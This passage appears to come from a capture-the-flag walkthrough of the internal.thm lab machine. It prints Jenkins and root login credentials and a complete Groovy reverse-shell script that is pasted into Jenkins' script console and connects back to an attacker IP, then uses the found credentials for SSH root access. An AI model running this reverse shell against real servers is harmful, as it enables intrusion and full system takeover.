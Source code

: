 **Jenkins Server Credentials**
```
admin:spongebob
```
Now we are login to `jenkins` so there are many ways we can get reverse shell back from `jenkins` but I use the `groovy` script method. First I got `/script` endpoint and there we have a groovy script box we can copy paste the following groovy reverse shell scrip there and after running that we can get the reverse shell back. 
```groovy
String host="10.8.186.33";int port=5555;String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
After getting the jenkins reverse shell I again use methods like finding SUID,GUID and capabilities but didn't found anything usefull so i use `ls /opt` command there is a file name `note.txt` that have root user credentials. We can now login to root user accoutn with followings credenitals using ssh 
```
root:tr0ub13guM!@#123
```
```shell
ssh root@internal.thm
password: tr0ub13guM!@#123
```
And we got root user.